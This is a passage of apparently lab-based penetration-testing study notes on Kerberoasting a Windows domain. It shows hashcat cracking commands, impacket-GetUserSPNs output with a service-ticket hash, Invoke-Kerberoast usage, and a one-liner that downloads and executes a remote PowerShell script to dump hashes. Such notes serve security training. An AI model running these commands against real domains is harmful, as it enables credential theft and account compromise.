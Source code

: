     kali@kali:~$ hashcat --help | grep -i "Kerberos"         
      ...
      13100 | Kerberos 5, etype 23, TGS-REP                       | Network Protocol      # !!!
      18200 | Kerberos 5, etype 23, AS-REP                        | Network Protocol
    ```
3. Cracking the TGS-REP hash
    ```sh
    kali@kali:~$ sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
    ```
#### impacket-GetUserSPNs (from Linux)
Next, let's perform Kerberoasting from Linux. We can use [impacket-GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) with the IP of the domain controller as the argument for **-dc-ip**. Since our Kali machine is not joined to the domain, we also have to provide domain user credentials to obtain the TGS-REP hash. As before, we can use **-request** to obtain the TGS and output them in a compatible format for Hashcat.
```
kali@kali:~$ sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete                                      
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName    Name         MemberOf  PasswordLastSet             LastLogon  Delegation 
----------------------  -----------  --------  --------------------------  ---------  ----------
HTTP/web04.corp.com:80  iis_service            2022-09-07 08:38:43.411468  <never>               


[-] CCache file is not found. Skipping...
$krb5tgs$23$*iis_service$CORP.COM$corp.com/iis_service*$21b427f7d7befca7abfe9fa79ce4de60$ac1459588a99d36fb31cee7aefb03cd740e9cc6d9816806cc1ea44b147384afb551723719a6d3b960adf6b2ce4e2741f7d0ec27a87c4c8bb4e5b1bb455714d3dd52c16a4e4c242df94897994ec0087cf5cfb16c2cb64439d514241eec...
```
> **Note**:
> If impacket-GetUserSPNs throws the error "KRB_AP_ERR_SKEW(Clock skew too great)," we need to synchronize the time of the Kali machine with the domain controller. We can use [ntpdate](https://en.wikipedia.org/wiki/Ntpdate) or [rdate](https://en.wikipedia.org/wiki/Rdate) to do so.

#### Invoke-Kerberoast
The [Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1) (`/usr/share/powershell-empire/empire/server/data/module_source/credentials/`) script extends this attack, and can automatically enumerate all service principal names in the domain, request service tickets for them, and export them in a format ready for cracking in both John the Ripper and Hashcat, completely eliminating the need for Mimikatz in this attack.

```powershell
PS C:\Users\offsec.CORP> Import-Module .\Invoke-Kerberoast.ps1
# For Hashcat
PS C:\Users\offsec.CORP> Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII out.hash -Width 8000
# For John
PS C:\Users\offsec.CORP> Invoke-Kerberoast -OutputFormat john | % { $_.Hash } | Out-File -Encoding ASCII out.hash -Width 8000
```
Or a more complete attack:
```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat John | Select-Object Hash | Out-File -Encoding ASCII hashes.kerberoast -Width 8000
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname